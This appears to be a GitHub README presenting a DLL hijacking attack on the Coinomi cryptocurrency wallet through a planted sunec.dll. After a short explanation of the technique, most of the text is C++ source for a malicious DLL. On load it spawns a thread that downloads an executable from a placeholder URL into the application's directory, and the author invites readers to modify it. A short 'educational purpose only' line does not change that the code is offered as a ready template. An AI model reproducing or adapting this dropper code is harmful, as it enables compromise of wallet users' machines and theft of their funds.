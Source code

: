 # Coinomi-wallet-DLL-Hijacking
Running malicious code by Hijacking sunec.dll


This is for educational purpose only.

What is DLL Hijacking?
DLL hijacking is a method of injecting malicious code into an application by exploiting the way some Windows applications search and load Dynamic Link Libraries (DLL).

Only Microsoft operating systems are susceptible to DLL hijacks.

By replacing a required DLL file with an infected version and placing it within the search parameters of an application, the infected file will be called upon when the application loads, activating its malicious operations.

What Dll to Hijack? 

Sunec.dll

In this example i created a console printing "Hello :D", other than that it also downloads a malicious exe file.

This is just an example you can modify it as you wish.

Example code:

#include <tchar.h>
#include <urlmon.h> 
#include <string>
#include <Windows.h>
#include <iostream>
#pragma comment(lib, "urlmon.lib")


std::string GetCurrentDirectory()
{
    char buffer[MAX_PATH] = {};
    DWORD size = GetModuleFileNameA(NULL, buffer, MAX_PATH);
    if (size == 0 || size == MAX_PATH) return "";
    std::string fileName(buffer, size);
    std::string::size_type pos = fileName.find_last_of("\\/");
    return fileName.substr(0, pos + 1);
}

void MainThread() {

    HRESULT download;
    LPCTSTR downloadUrl = "website + name.exe", File = "nomexe.exe";
    std::string localFile = GetCurrentDirectory() + File;

    download = URLDownloadToFileA(0, downloadUrl, localFile.c_str(), 0, 0);

    AllocConsole(); freopen("CONOUT$", "w", stdout);

    std::cout << "Hello :D" << std::endl;

    switch (download)
    {
    case S_OK:
        std::cout << "1" << std::endl;
        break;
    case E_OUTOFMEMORY:
        std::cout << "Out of mem" << std::endl;
        break;
    case INET_E_DOWNLOAD_FAILURE:
        std::cout << "0" << std::endl;
        break;
    default:
        std::cout << " " << std::endl;
        break;
    }

}



BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(nullptr, NULL, reinterpret_cast<LPTHREAD_START_ROUTINE>(MainThread), nullptr, NULL, nullptr);
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
